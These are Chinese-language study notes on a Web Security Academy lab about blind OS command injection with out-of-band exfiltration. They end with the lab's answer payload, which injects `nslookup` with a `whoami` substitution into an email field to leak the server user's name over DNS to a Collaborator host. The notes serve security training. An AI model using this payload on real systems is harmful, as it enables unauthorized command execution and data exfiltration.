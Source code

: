 可以发现有个方便的`Burp Collaborator client[Pro version only]`，发挥自己的本领吧！

<img src="../../_media/image-20250220153907337.png" alt="image-20250220153907337" style="zoom: 67%;" />



such like this

提示 `Congratulations！`





#### Lab: Blind OS command injection with out-of-band data exfiltration(本实验需要专业版才能完成)

请执行`whoami`命令并通过 DNS 查询将输出泄露给 Burp Collaborator。您需要输入当前用户的名称才能完成实验。



因为实验室被严格限制了，防火墙会阻止实验室与任意外部系统之间的交互。要解决实验室问题，您必须使用 Burp Collaborator 的默认公共服务器。



这里直接贴答案

```
email=||nslookup+`whoami`.0a96007e04bddc8f878431c100360065.web-security-academy.net||
```
